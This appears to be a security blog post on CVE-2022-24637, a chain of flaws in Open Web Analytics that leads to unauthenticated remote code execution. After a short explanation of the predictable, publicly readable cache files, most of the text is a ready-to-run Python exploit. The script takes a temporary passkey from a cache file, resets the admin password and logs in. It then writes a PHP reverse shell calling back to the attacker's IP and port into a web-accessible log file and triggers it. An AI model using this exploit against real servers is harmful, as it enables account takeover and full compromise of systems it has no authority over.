

# Introduction 

Open Web Analytics  is an open-source web analytics software written in PHP and using a MySQL database. The source code is freely available on [GitHub](https://github.com/Open-Web-Analytics/Open-Web-Analytics). OWA offers profound tracking capabilities as well as a wide variety of detailed reports. In contrast to Google Analytics, OWA can be hosted on an own server.

In this article we will take a look at two vulnerabilities in OWA, which enable an unauthenticated attacker to gain RCE on the underlying webserver when combined. After determining the root cause of these vulnerabilities, we will point out how these can be mitigated and highlight a few general aspects regarding secure coding.


# Code

A basic entity in OWA is represented by the `owa_entity class`. Examples for such entities inheriting from `owa_entity` are documents `(owa_document)`, sites `(owa_site)` or users `(owa_user)`. These entities are persisted in the MySQL database. In order to increase performance, OWA version 1.7.3 and prior uses a file based caching mechanism by default. When an entity is loaded from the database the first time, it is cached by writing its serialized data to a cache file.

The creation of these cache files is implemented in the putItemToCacheStore method within the owa_fileCache class

`(modules/base/classes/fileCache.php)`:

```php
    function putItemToCacheStore($collection, $id) {

        if ( $this->acquire_lock() ) {
            $this->makeCacheCollectionDir($collection);
            $this->debug(' writing file for: '.$collection.$id);
            // create collection dir
            $collection_dir = $this->makeCollectionDirPath($collection);
            // asemble cache file name
            $cache_file = $collection_dir.$id.'.php';

            $this->removeCacheFile($cache_file);

            $temp_cache_file = tempnam($collection_dir, 'tmp_'.$id);

            $data = $this->cache_file_header.base64_encode(serialize($this->cache[$collection][$id])).$this->cache_file_footer;
```


As we can see he serialized entity is base64 encoded and written to a temporary cache file. The name of this temporary file is later changed to consist of a unique id with a .php extension:

```php
class owa_fileCache extends owa_cache {
 
  
     
    var $cache_file_header = '<?php\n/*';
    var $cache_file_footer = '*/\n?>';
     
```

so it's like that... ```<?php\n/*BODYBASE64encoded?>```


-----------------------------------------------------------------------------------------------------------------------------------------


## Exploiting

Since the PHP cache files are publicly accessible (owa-data/caches/), we can retrieve the base64 encoded serialized data. In order to do this, we need to know the name of the cache file. Though it turned out, that the filename is predictable. _If the admin user at least logged in once, the cache file exists. But even if the user never logged in, we can trigger the creation by trying to login with this user. The failed login attempt does also create the cache file._


##### Cache ID default

Before knowing the exact name in `http://website.com/owa-data/caches/cache_id/xxxxxxxxxxxxxxx.php` we have to know the default cache id in `(modules/base/classes/cache.php)`

```php
var $cache_id = 1; // default cache id
```


##### Exact cache file name

I read the source code and issue in github and i notice something ... the exact name of cachefile [github](https://github.com/Open-Web-Analytics/Open-Web-Analytics/issues/681#issuecomment-718180228) which is `fafe1b60c24107ccd8f4562213e44849.php`

-----------------------------------------------------------------------------------------------------------------------------------------
## Coding 

The chain of the exploit is quite complex :

- Attempt to login trying to write the cachefile of the admin
- Find the temp_passkey value
- Reset password name with the value got
- Login 
- Write PHP oneliner reverse shell
- Get shell (RCE)

----
### PoC

```python
import argparse
import requests
import base64
import re
import random
import string
import hashlib
from termcolor import colored

def print_message(message, type):
   if type == 'SUCCESS':
      print('[' + colored('SUCCESS', 'green') +  '] ' + message)
   elif type == 'INFO':
      print('[' + colored('INFO', 'blue') +  '] ' + message)
   elif type == 'WARNING':
      print('[' + colored('WARNING', 'yellow') +  '] ' + message)
   elif type == 'ALERT':
      print('[' + colored('ALERT', 'yellow') +  '] ' + message)
   elif type == 'ERROR':
      print('[' + colored('ERROR', 'red') +  '] ' + message)

def get_normalized_url(url):
   if url[-1] != '/':
      url += '/'
   if url[0:7].lower() != 'http://' and url[0:8].lower() != 'https://':
      url = "http://" + url
   return url

def get_proxy_protocol(url):
   if url[0:8].lower() == 'https://':
      return 'https'
   return 'http'

def get_random_string(length):
   chars = string.ascii_letters + string.digits
   return ''.join(random.choice(chars) for i in range(length))

def get_cache_content(cache_raw):
   regex_cache_base64 = r'\*(\w*=*)\*'
   regex_result = re.search(regex_cache_base64, cache_raw)
   if not regex_result:
      print_message('The provided URL does not appear to be vulnerable ...', "ERROR")
      exit()
   else:
      cache_base64 = regex_result.group(1)
   return base64.b64decode(cache_base64).decode("ascii")

def get_cache_username(cache):
   regex_cache_username = r'"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:\d*:"([^"]*)"'
   return re.search(regex_cache_username, cache).group(1)

def get_cache_temppass(cache):
   regex_cache_temppass = r'"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:\d*:"([^"]*)"'
   return re.search(regex_cache_temppass, cache).group(1)

def get_update_nonce(url):
   try:
      update_nonce_request = session.get(url, proxies=proxies)
      regex_update_nonce = r'owa_nonce" value="(\w*)"'
      update_nonce = re.search(regex_update_nonce, update_nonce_request.text).group(1)
   except Exception as e:
      print_message('An error occurred when attempting to update config!', "ERROR")
      print(e)
      exit()
   else:
      return update_nonce

parser = argparse.ArgumentParser(description='Exploit for CVE-2022-24637: Unauthenticated RCE in Open Web Analytics (OWA)')
parser.add_argument('TARGET', type=str, 
                  help='Target URL (Example: http://localhost/owa/ or https://victim.xyz:8000/)')
parser.add_argument('-i', '--atk-ip', type=str, 
                  help='Address for reverse shell listener on attacking machine')
parser.add_argument('-p', '--atk-port', type=str, 
                  help='Port for reverse shell listener on attacking machine')
parser.add_argument('-u', '--username', default="admin", type=str,
                  help='The username to exploit (Default: admin)')
parser.add_argument('-s','--new-password', default=get_random_string(32), type=str,
                  help='The new password for the exploited user')
parser.add_argument('-P','--proxy', type=str,
                  help='HTTP proxy address (Example: http://127.0.0.1:8080/)')
parser.add_argument('-c', '--check', action='store_true',
                  help='Check vulnerability without exploitation')

args = parser.parse_args()

if not args.check and (not args.atk_ip or not args.atk_port):
   print_message('The attacker ip (-i) and port (-p) for your listener must be set for exploitation', "ERROR")
   print_message('Use -c to only test if the system is vulnerable without exploiting the system', "INFO")
   exit()

base_url = get_normalized_url(args.TARGET)
login_url = base_url + "index.php?owa_do=base.loginForm"
password_reset_url = base_url + "index.php?owa_do=base.usersPasswordEntry"
update_config_url = base_url + "index.php?owa_do=base.optionsGeneral"

username = args.username
new_password = args.new_password

reverse_shell = '<?php $sock=fsockopen("{ip}",{port});$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>'.format(ip=args.atk_ip,port=args.atk_port)
shell_filename = get_random_string(8) + '.php'
shell_url = base_url + 'owa-data/caches/' + shell_filename

if args.proxy:
   proxy_url = get_normalized_url(args.proxy)
   proxy_protocol = get_proxy_protocol(proxy_url)
   proxies = { proxy_protocol: proxy_url }
else:
   proxies = {}

session = requests.Session()

try:
   mainpage_request = session.get(base_url, proxies=proxies)
except Exception as e:
   print_message('Could not connect to "{url}"'.format(url=base_url), "ERROR")
   exit()
else:
   print_message('Connected to "{url}" successfully!'.format(url=base_url), "SUCCESS")

if 'Open Web Analytics' not in mainpage_request.text:
   print_message('Could not confirm whether this website is hosting OWA! Continuing exploitation...', "WARNING")
elif 'version=1.7.3' not in mainpage_request.text:
   print_message('Could not confirm whether this OWA instance is vulnerable! Continuing exploitation...', "WARNING")
else:
   print_message('The webserver indicates a vulnerable version!', "ALERT")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": username, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Attempting to generate cache for "{username}" user'.format(username=username), "INFO")

print_message('Attempting to find cache of "{username}" user'.format(username=username), "INFO")

found = False

for key in range(10):
   user_id = 'user_id' + str(key)
   userid_hash = hashlib.md5(user_id.encode()).hexdigest() 
   filename = userid_hash + '.php'
   cache_url = '{base_url}owa-data/caches/{key}/owa_user/{filename}'.format(base_url=base_url,key=str(key),filename=filename)
   cache_request = requests.get(cache_url, proxies=proxies)
   if cache_request.status_code != 200:
      continue;
   cache_raw = cache_request.text
   cache = get_cache_content(cache_raw)
   cache_username = get_cache_username(cache)
   if cache_username != username:
      print_message('The temporary password for a different user was found. "{username}": {temppass}'.format(username=cache_username,temppass=get_cache_temppass(cache)), "INFO")
      continue;
   else:
      found = True
      break
if not found:
   print_message('No cache found. Are you sure "{username}" is a valid user?'.format(username=username), "ERROR")
   exit()

cache_temppass = get_cache_temppass(cache)
print_message('Found temporary password for user "{username}": {temppass}'.format(username=username,temppass=cache_temppass), "INFO")

if args.check:
   print_message('The system appears to be vulnerable!', "ALERT")
   print_message('Remove -c from your command if you wish to exploit the system!', "INFO")
   exit()

try:
   data = {
      "owa_password": new_password, 
      "owa_password2": new_password, 
      "owa_k": cache_temppass, 
      "owa_action": 
      "base.usersChangePassword"
   }
   session.post(password_reset_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when changing the user password!', "ERROR")
   print(e)
   exit()
else:
   print_message('Changed the password of "{username}" to "{password}"'.format(username=username,password=new_password), "INFO")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": new_password, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Logged in as "{username}" user'.format(username=username), "SUCCESS")

nonce = get_update_nonce(update_config_url)

try:
   log_location = "/var/www/html/owa/owa-data/caches/" + shell_filename
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[base.error_log_file]": log_location, 
      "owa_config[base.error_log_level]": 2
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
else:
   print_message('Creating log file', "INFO")

nonce = get_update_nonce(update_config_url)

try:
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[shell]": reverse_shell 
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
else:
   print_message('Wrote payload to log file', "INFO")

try:
   session.get(shell_url, proxies=proxies)
except Exception as e:
   print(e)
else:
   print_message('Triggering payload! Check your listener!', "SUCCESS")
   print_message('You can trigger the payload again at "{url}"'.format(url=shell_url) , "INFO")

```

## Proof




[back](./)